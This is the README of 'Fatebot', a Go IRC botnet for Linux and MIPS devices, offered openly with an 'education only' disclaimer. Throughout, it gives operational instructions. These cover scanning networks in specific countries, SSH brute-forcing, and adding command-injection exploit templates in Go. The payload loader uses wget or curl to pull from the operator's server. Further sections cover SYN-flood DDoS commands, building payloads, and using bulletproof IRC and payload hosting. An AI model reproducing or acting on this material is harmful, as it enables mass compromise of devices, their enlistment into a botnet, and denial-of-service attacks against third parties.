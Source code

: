 <p align="center">
	<a href="https://github.com/boz3r/Fatebot">
		<img src="assets/Not my image, i just add Fate text.png" alt="fatebot" width="440" height="440">
	</a>
	<br>
	<a href="https://github.com/boz3r/Fatebot/blob/master/LICENSE">
		<img src="https://img.shields.io/badge/license-Unlicense-red?style=plastic">
	</a>
	<a href="https://github.com/boz3r/Fatebot/releases/tag/0.8.1.3">
    		<img src="https://img.shields.io/badge/version-v0.8.1.3-lightgrey?style=plastic">
	</a>
	<a href="https://go.dev/">
    		<img src="https://img.shields.io/badge/language-Go-red?style=plastic">
	</a>
	<a href="https://en.wikipedia.org/wiki/Linux">
    		<img src="https://img.shields.io/badge/platform-linux-lightgrey?style=plastic">
	</a>
  	</br>
</p>

<p align="center">
	<b><ins>⚠️ DISCLAIMER ⚠️</ins></b>
	<br>
	Bozer\Bulldozer (old name is R4bin) the author of Fatebot.
	<br>
	I create this project for education purpose only, the use of this software is your responsibility!!!
	<br>
</p>

---

# Spread Feature
Spread feature of this bot will scan on default SSH and HTTP port. Option about scan feature in this bot is scan on CN, HK, KR and BR network or you can do a random scan or even you can add you own mods, all of these is up to you. This bot will brute-force attack and exploit to the target device, server, etc that's run linux or using mips x32 architecture. The loader will use "wget" or "curl" as a default loader for download the payload from FTP server or any option any server type that you can host the payload not maintionly to be an FTP server.
	
	# How to add more scanner network (Create your own scan mod).
	
	1) Go to scanner.go file and add a new slice for your scan network.
	
		# Example:
			
			var ItalyNetwork = []string {
				"123.456", //123.456.0.0/16
			}
			
			# since v0.6.0 will be use only 16 bit of the ip range (I'm still confused about subnet mask lol).
			
	2) Go to header.go file and scroll down to the map name "ScanMap".
	3) Custom your key and value. The value of map is structure, so you need to call a value in "Bot" structure and fill it.
	
		# Example:
		
			"-it": {				 # This key will be the command of a network arg in "?scan" command. "it" is short form italy.
				scanNetwork: ItalyNetwork, 	 # Fill the "scanNetwork" that's a value of "Bot" structure. To your network slice.
				scanOptFull: "\"ITALY\"",	 # Add full name of the network for a report process.
				isRandom:    false,		 # Set "isRandom" to false because it's not a full random network.
			},
	
	4) Done... just save it.
	
# Add/Customize Exploit
The exploit that's use in this botnet mostly will be a command injection (tbh it's all of it lmao). You can add a new exploit if you want, but i recommend it to be a command injection vulnerability because you don't need to add or write anything more you just need to config it. I try to make the exploit feature easy and felxible to configuration as much as i can. If 2 examples down below is not enough you can see more example in "internal/exploit.go".
	
	#############################################################
	### Example 1 Incase that you want to add new HTTP header ###
	#############################################################
	
	func (b *Bot) CVE_someYear_newCVE1() {
		
		# If you add a post exploit, then customize it with a json.
		# Incase that your exploit need to inject on a post body just call an inject function --> b.inject("default or mips", true)
		
		
		# In this example will use default architecture so that's why we put "default" if your exploit use mips just put "mips".
		# Always put true because we are doing an exploit not scanning (The inject function has reused in the scanner function).
			
		newCVE1, _ := json.Marshal(map[string]string{
			"example":      "something",
			"example":      "something"+b.inject("default", true),
		})
		
		# This is just a http header customization.
		# Incase that your exploit need to inject on a header just doing the same with the body. 
		
		enewCVE1 := Exploit{
			exploitName:       "CVE_someYear_newCVE1",			# Customize exploit name for a report process.
			exploitMethod:     "POST",					# Which http method you will use for this exploit.
			exploitHeader:     "example/something",				# Customize http header.
			exploitBody:       convReader(newCVE1),				# Customize http body.
			exploitAgent:      "example"+b.inject("default", true),		# Customize http agent.
			exploitAccept:     "example",					# Customize http accept.
			exploitContType:   "example",					# Customize http content type.
			exploitConnection: "example",					# Customize http connection.
		}
		
		# If you want to add new header then just call it, like the example down below.
		
		_, newHeader := enewCVE1.setupExploit(b.tempIP)			# Use "enewCVE1" for calling Exploit structure function.
		newHeader.Header.Set("newHeader", "headerContent")		# Add new header (header, header_content).
		b.exploitLauncher(enewCVE1, newHeader)				# Launch the exploit by put the exploit strucutre and header in to "b.exploitLauncher(ourExploit, ourHeader)" function.
	}
	
	###################################################################
	### Example 2 Incase that you don't need to add new HTTP header ###
	###################################################################
	
	# This example is the same like the first example in term of header and body configs.
	
	func (b *Bot) CVE_someYear_newCVE2() {			
		newCVE2, _ := json.Marshal(map[string]string{
			"example":      "something",
			"example":      "something"+b.inject("default", true),
		})
		enewCVE2 := Exploit{
			exploitName:       "CVE_someYear_newCVE2",			# Customize exploit name for a report process.
			exploitMethod:     "POST",					# Which http method you will use for this exploit.
			exploitHeader:     "example/something",				# Customize http header.
			exploitBody:       convReader(newCVE2),				# Customize http body.
			exploitAgent:      "example"+b.inject("default", true),		# Customize http agent.
			exploitAccept:     "example",					# Customize http accept.
			exploitContType:   "example",					# Customize http content type.
			exploitConnection: "example",					# Customize http connection.
		}

		b.exploitLauncher(enewCVE2,  b.selfRequest(enewCVE2))		# In the first example you need to call "setupExploit" function but this example you don't need to call it.
										# Just call "exploitLauncher" function and in the second argument use "selfRequest" function instead of a newHeader value. 
										# Because we only use default header-set and then put our exploit structure in to the "selfRequest" argument.
	}
	
# Attack Feature
Attack feature will play around with transport layer mostly, but also have an application and network layer too.
All of the attack vectors except "http" DDoS vectors will be random source port and windows size automatically but dst port will let bot herder config by them self.

	# tcp -syn 127.0.0.1 192.168.50.129 -r 100 //command that's used in this screenshot.

<img src="assets/synflood.png" alt="synflood, dos example">

# IRC Commands
	
	cat irc/commands.txt 
	
	# I have moved irc commands from github repositories to commands.txt file.

# Build Payload

	chmod +x build.sh
	./build.sh <payload>
	
	# The bot system architecture is up to which payload you upload on your payload server.
	# If you upload x32 on your payload server, the bot that you have scaned will be only x32 arch.
	# The mips architecture is specific for doing an exploit only, so it doesn't count to the scan process!!!
	# To run the payload you need to run with root access!!!

# Requirements
<ul>
	<li>x2 Bulletproof IRC Server (Recommend x2 in case for handle a lot of connections or your server is a low spec)</li>
</ul>

<ul>
	<li>x1 Bulletproof IRC Backup Server (Optional)</li>
</ul>

<ul>
	<li>x1 Payload Hosting Server (If it is a bulletproof hosting. It will be great for your self)</li>
</ul>

<ul>
	<li>IRC Client</li>
</ul>

<ul>
	<li>Go Compiler</li>
</ul>

<ul>
	<li>UPX Packer</li>
</ul>

<ul>
	<li>Code\Text Editor</li>
</ul>
